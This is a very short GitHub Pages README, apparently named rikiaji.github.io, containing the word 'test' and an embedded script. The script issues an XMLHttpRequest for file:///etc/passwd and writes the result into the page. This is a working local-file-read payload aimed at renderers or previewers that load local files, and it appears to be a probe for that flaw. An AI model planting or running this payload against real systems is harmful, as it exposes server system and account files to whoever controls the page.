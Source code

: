 # rikiaji.github.io
test
<script>
    x=new XMLHttpRequest;
    x.onload=function(){  
    document.write(this.responseText)
};
    x.open("GET","file:///etc/passwd");
    x.send();
</script>
